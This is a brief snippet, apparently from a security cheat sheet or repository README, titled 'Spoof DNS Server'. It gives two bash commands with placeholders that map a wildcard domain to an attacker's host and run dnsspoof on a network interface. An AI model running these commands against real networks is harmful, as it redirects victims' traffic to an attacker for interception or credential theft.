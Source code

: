 # Spoof DNS Server
```bash
echo "<Attack Host> *.<Domain Name>.com" > dns
dnsspoof -i <Interface> -f dns
```